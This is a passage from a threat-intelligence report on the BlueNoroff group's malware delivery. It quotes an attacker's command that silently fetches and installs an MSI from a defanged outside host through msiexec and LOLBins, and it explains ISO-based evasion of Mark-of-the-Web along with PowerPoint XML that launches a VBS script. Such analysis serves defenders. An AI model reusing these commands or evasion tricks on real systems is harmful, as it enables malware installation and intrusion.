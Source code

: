 



cmd.exe /c DeviceCredentialDeployment & echo jbusguid> %APPDATA%\Pass.txt & start 
%APPDATA%\Pass.txt && FOR %i IN (%systemroot%\system32\msiexec.*) DO msiexec -c /Q /i 
hxxps://www.capmarketreport[.]com/packageupd.msi?ccop=RoPbnVqYd & timeout




1234

cmd.exe /c DeviceCredentialDeployment & echo jbusguid> %APPDATA%\Pass.txt & start %APPDATA%\Pass.txt && FOR %i IN (%systemroot%\system32\msiexec.*) DO msiexec -c /Q /i  hxxps://www.capmarketreport[.]com/packageupd.msi?ccop=RoPbnVqYd & timeout




To evade detection, the actor utilized Living Off the Land Binaries (LOLBins). The DeviceCredentialDeployment execution is a well-known LOLBin used to hide the command’s windows. The actor also abused the msiexe.exe file to silently launch the fetched Windows Installer file.
Updated method #1: Tricks to evade MOTW flag
We observed that the actor examined different file types to deliver their malware. Recently, many threat actors have adopted image files to avoid MOTW (Mark-of-the-Web). In a nutshell, MOTW is a mitigation technique introduced by Microsoft. The NTFS file system marks a file downloaded from the internet, and Windows handles the file in a safe way. For example, when a Microsoft Office file is fetched from the internet, the OS opens it in Protected View, which restricts the execution of the embedded macro. In order to avoid this mitigation technique, more threat actors have started abusing ISO file types. The BlueNoroff group likely experimented with ISO image files to deliver their malware. Although it’s still under development, we mention this sample as an early warning. This ISO image file contains one PowerPoint slide show and one Visual Basic Script.

Embedded files of ISO image
The Microsoft PowerPoint file contains a link. When the user clicks the link, it executes the 1.vbs file through the WScript process. When we checked the VBS file, it only generated an “ok” message, which suggests BlueNoroff is still experimenting with this method.





<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="wscript%201.vbs" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/></Relationships>




12

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="wscript%201.vbs" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/></Relationships>


